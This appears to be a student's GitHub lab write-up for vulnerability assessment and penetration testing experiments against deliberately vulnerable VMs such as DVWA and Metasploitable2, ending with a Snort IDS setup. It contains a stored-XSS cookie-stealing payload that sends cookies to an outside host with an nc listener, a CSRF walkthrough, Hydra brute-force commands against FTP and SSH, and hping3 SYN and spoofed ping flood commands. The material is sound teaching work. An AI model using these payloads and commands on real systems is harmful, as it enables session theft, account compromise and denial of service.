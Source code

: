 # VAPT

videos link https://drive.google.com/drive/u/1/folders/1L9Eg45D2zRLi1t23e6L9IqLrYPtG5L6B

VAPT Lab Experiments 5 to 8
Experiment 5: Burp Suite - XSS and CSRF Testing
As a cybersecurity analyst evaluating the security of a new online education platform, this experiment demonstrates how to identify XSS and CSRF vulnerabilities using Burp Suite.

Setup: Burp Suite Configuration
1. Launch Burp Suite in Kali Linux.
2. Configure browser proxy: HTTP proxy to 127.0.0.1:8080.
3. Import Burp Suite certificate into the browser.
4. Start Kali Linux and Metasploitable 2 VMs.
5. Access the application via 192.168.111.129 in browser.
6. Open DVWA and login using: admin / password.

a) XSS (Cross-Site Scripting)

Stored XSS
Stored XSS executes malicious scripts stored permanently on a page, running on every visit.
1. Navigate to XSS (Stored).
2. Test 1: Name: Test, Message: <b>Hello Everyone</b> → Click "Sign Guestbook"
3. Test 2: Name: Hi, Message: <script>alert("Hello This is XSS")</script> → Sign Guestbook
4. Navigate away and return to the page to see the popup.
5. To fetch cookies: <script>alert(document.cookie)</script>
6. For stealing cookies:
<script>new Image().src="http://192.168.62.128/abc.php?output="+document.cookie;</script>
   - Start listener: nc -lvp 80

Reflected XSS
1. Navigate to XSS (Reflected).
2. Enter: <script>alert("hello")</script> and submit.
3. Alert box appears, but disappears on refresh/navigation.

b) CSRF (Cross-Site Request Forgery)
1. Log in to DVWA as admin / password.
2. Set DVWA security to Low.
3. Open Burp Suite and ensure proxy setup and certificate are configured.
4. Navigate to CSRF page.
5. Enter new password and confirmation.
6. Activate Intercept in Burp Suite.
7. Submit form → Burp captures traffic.
8. Send to Repeater and then Forward the intercepted request.
9. Check for "Password Changed" in DVWA.
10. Modify password in Repeater, send again.
11. Confirm password changed again via Render tab.
12. Disable intercept and proxy settings.
13. Log out and try to log in again. Original password fails due to unauthorized change.

Experiment 6: Password Strength Assessment using Hydra
ABC Corp uses Hydra to perform a dictionary-based password cracking attack targeting FTP and SSH services.

Steps:
1. Start Kali Linux and Metasploitable2 VMs.
2. Locate dictionary file: locate unix_passwords.txt
3. If msfadmin is not in the file:
   vi /opt/metasploit-framework/embedded/framework/data/wordlists/unix_passwords.txt
4. Run Hydra against FTP:
   hydra -l msfadmin -P /opt/metasploit-framework/embedded/framework/data/wordlists/unix_passwords.txt ftp://192.168.62.137
5. If password match is found, connect via FTP:
   ftp 192.168.62.137
6. SSH into target:
   ssh -o HostKeyAlgorithms=+ssh-rsa msfadmin@192.168.62.137
   echo "Welcome to Cyber Security Lab" > 1.txt
   cat 1.txt

Experiment 7: DoS Attack Simulation using Hping3
Using Hping3, simulate SYN and Ping flood attacks and observe the impact.

Ping Flood:
1. Start Kali Linux and Ubuntu VM (target).
2. ping 192.168.62.133
3. Use Wireshark to capture ICMP packets.
4. Install Snort on Ubuntu:
   sudo apt-get install snort -y
   sudo snort -A console -c /etc/snort/snort.conf
5. Launch Ping Flood from Kali:
   sudo hping3 -1 -c 1 192.168.62.133
   sudo hping3 -1 -c 1 -i 5 192.168.62.133
   sudo hping3 -1 --faster 192.168.62.133
   sudo hping3 -1 -a 192.168.62.139 192.168.62.133
   sudo hping3 -1 --rand-source 192.168.62.133

SYN Flood:
1. Start Kali Linux and Metasploitable2 VMs.
2. Access DVWA from Kali browser.
3. Run SYN Flood:
   sudo hping3 -S -c 1 -p 80 192.168.62.129
   sudo hping3 -S -c 1 -p 80 -i 5 192.168.62.129
   sudo hping3 -S --flood -p 80 192.168.62.129

Experiment 8: Implementing IDS with Snort
Steps to configure and test Snort as an IDS:

1. Start Ubuntu and Kali Linux VMs.
2. Install Snort on Ubuntu:
   sudo apt-get install snort
3. Configure network interface during setup.
4. Edit Snort config and rules:
   cd /etc/snort
   sudo vi snort.conf
   cd rules
   vi local.rules

5. Test and start Snort:
   sudo snort -T -c /etc/snort/snort.conf
   sudo snort -A console -c /etc/snort/snort.conf

Testing with Kali:
1. nmap 192.168.111.133
2. ping 192.168.111.133

Custom Snort Rules (in local.rules):
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"Shubha"; sid:5889; rev:1;)
alert tcp any any -> $HOME_NET 21 (msg:"FTP attempted"; sid:60001; rev:1;)
alert tcp any any -> $HOME_NET 22 (msg:"SSH attempted"; sid:600022; rev:1;)

Trigger Rules:
1. ping 192.168.111.133 → Shubha alert
2. ftp 192.168.111.133 → FTP attempted alert
3. ssh ubuntu@192.168.111.133 → SSH attempted alert
